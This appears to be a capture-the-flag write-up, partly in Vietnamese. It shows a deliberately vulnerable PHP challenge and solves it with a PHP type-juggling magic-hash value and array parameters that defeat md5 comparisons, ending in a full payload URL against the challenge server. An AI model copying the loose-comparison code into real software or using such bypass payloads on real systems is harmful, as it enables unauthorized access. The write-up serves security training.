 # Solution

Source code:

```php
<?php 
include "flag.php"; 
highlight_file(__FILE__); 
error_reporting(0); 
$str1 = $_GET['0']; 

if(isset($_GET['0'])){ 
    if($str1 == md5($str1)){ 
        echo $onion1; 
    } 
    else{ 
        die(); 
    } 
} 
else{ 
    die();    
} 

$str2 = $_GET['1']; 
$str3 = $_GET['2']; 

if(isset($_GET['1']) && isset($_GET['2'])){ 
    if($str2 !== $str3){ 
        if(hash('md5', $salt . $str2) == hash('md5', $salt . $str3)){ 
            echo $onion2; 
        } 
        else{ 
            die(); 
        } 
    } 
    else{ 
        die(); 
    } 
} 
else{ 
    die();    
} 
?> 
```

Để bypass đoạn check `$str1 == md5($str1)` mình dùng [php magic hash](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Type%20Juggling/README.md)

=> `$str1=0e1137126905`

Flag1:

![flag1](https://user-images.githubusercontent.com/77546253/176494780-fa00ad7a-05f1-4f71-8805-ac2f5c4be44f.png)

Cuối cùng để bypass đoạn check thứ 2:

```php
    if($str2 !== $str3){ 
        if(hash('md5', $salt . $str2) == hash('md5', $salt . $str3)){ 
            echo $onion2; 
        } 
        else{ 
            die(); 
        } 
    } 
```

Chỉ cần truyền vào 2 mảng khác nhau là xong:

final payload:
`http://103.245.249.76:49155/?0=0e1137126905&1[]=bla&2[]=blabla`

Full flag:

![flag2](https://user-images.githubusercontent.com/77546253/176494809-da98c1bd-08de-41f2-ac1e-f7bf31e823ab.png)
